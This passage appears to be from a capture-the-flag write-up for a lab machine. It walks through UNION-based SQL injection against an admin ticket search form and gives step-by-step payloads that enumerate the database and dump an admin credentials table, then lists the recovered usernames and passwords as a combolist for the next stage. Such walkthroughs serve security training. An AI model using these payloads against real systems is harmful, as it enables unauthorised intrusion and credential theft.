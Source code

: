 Testing the form on the page, we see that it allows us to search for tickets by title.

![Basecamp Web 80 Admin Form](basecamp_web_80_admin_form.webp){: width="1200" height="600" }

Testing it for SQL injection, we notice that adding a single quote (`'`) to our input returns a `500` response, indicating a potential vulnerability.

![Basecamp Web 80 Admin Form SQLI One](basecamp_web_80_admin_form_sqli_one.webp){: width="1200" height="600" }

To exploit this **SQL Injection** vulnerability to extract data from the database, we first need to determine the column count in the injected query.

With the payload `a' UNION SELECT 1,2,3;#`, we find the column count is **3**.

![Basecamp Web 80 Admin Form SQLI Two](basecamp_web_80_admin_form_sqli_two.webp){: width="1200" height="600" }

Now, we can start extracting data from the database.

Using the payload `title=a' UNION SELECT 1,group_concat(schema_name),3 from information_schema.schemata;#`, we retrieve the database names:

- `information_schema`, `performance_schema`, `ticketsite`

Next, we check the tables in the `ticketsite` database with the payload `title=a' UNION SELECT 1,group_concat(table_name),3 from information_schema.tables where table_schema='ticketsite';#`:

- `admin_auth`, `auth_users`, `tickets`


We then extract the column names for the `ticketsite.admin_auth` table using the payload `title=a' UNION SELECT 1,group_concat(column_name),3 from information_schema.columns where table_schema='ticketsite' and table_name='admin_auth';#`:

- `id`, `admin_username`, `admin_password`, `email`

Finally, we dump the table with the payload `title=a' UNION SELECT 1,group_concat(admin_username,':',admin_password,':',email,':',id SEPARATOR '\n'),3 from ticketsite.admin_auth;#`.

```console
james:Pw[REDACTED]3!:james@k2.thm:1
rose:VrMAogdfxW!9:rose@k2.thm:2
bob:PasSW0Rd321:bob@k2.thm:3
steve:St3veRoxx32:steve@k2.thm:4
cait:PartyAlLDaY!32:cait@k2.thm:5
xu:L0v3MyDog!3!:xu@k2.thm:6
ash:PikAchu!IshoesU!:ash@k2.thm:7
```

### Shell as james

Creating a wordlist from the extracted usernames and passwords as follows:

```console
james:Pw[REDACTED]3!
rose:VrMAogdfxW!9
bob:PasSW0Rd321
steve:St3veRoxx32
cait:PartyAlLDaY!32
xu:L0v3MyDog!3!
ash:PikAchu!IshoesU!
```
{: file="combolist.txt" }
